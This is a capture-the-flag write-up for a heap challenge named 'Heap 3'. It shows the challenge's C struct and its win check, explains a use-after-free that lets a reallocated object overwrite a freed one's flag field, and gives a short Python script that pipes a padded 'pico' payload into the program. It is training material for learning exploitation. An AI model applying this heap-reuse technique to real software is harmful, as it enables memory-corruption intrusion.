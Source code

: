 # Heap 3

**Description:**  
This program mishandles memory. Can you exploit it to retrieve the flag?

---

## Steps to Solve

### 1. Inspect the Source Code
The program uses a `struct` in C. From the code, the `check_win()` function checks if `x->flag` contains the string `"pico"`. To win, we need to overwrite `x->flag` with `"pico"`.

```c
typedef struct {
  char a[10];
  char b[10];
  char c[10];
  char flag[5];
} object;

int num_allocs;
object *x;

void check_win() {
  if (!strcmp(x->flag, "pico")) {
    printf("YOU WIN!!11!!\n");

    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);

  } else {
    printf("No flag for you :(\n");
    fflush(stdout);
  }
}
```

---

### 2. Analyze the Program
The program provides the following functions:
- `free_memory()` to free the memory allocated to `x`.
- `alloc_object()` to allocate memory for a new object.

Since `malloc` reserves memory on the heap, we can exploit this by:
1. Using `free_memory()` to free `x`.
2. Using `alloc_object()` to allocate a new object, which will overwrite the memory of `x`.

This allows us to overwrite `x->flag` as shown below:

![Heap Exploitation Diagram](image.png)

---

### 3. Run the Program
From the program's output menu, the process to exploit it is as follows:
1. Free `x`.
2. Allocate a new object.
3. Specify a size of 30.
4. Input 30 random characters ending with `"pico"`.
5. Check for the win condition.

Example output menu:

![Program Output Menu](image-1.png)

---

### 4. Exploit the Program
Here is a Python script (`script.py`) to automate the exploitation process:

```python
import sys

size = 30
sys.stdout.buffer.write(b'5\n2\n' + b'30\n' + b'A' * size + b'pico\n4\n')
```

Run the script and pipe its output to the program:

![Exploit Execution](image-2.png)